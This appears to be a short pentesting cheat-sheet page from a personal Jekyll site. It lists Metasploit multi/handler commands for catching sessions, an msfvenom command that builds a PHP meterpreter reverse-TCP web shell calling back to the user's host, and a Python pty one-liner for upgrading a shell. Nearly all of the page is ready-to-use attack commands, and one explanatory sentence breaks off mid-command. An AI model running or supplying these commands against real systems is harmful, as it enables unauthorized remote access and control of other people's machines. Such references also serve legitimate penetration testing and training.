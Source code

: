 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers
```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 
<br/>
#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```


### Python
##### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
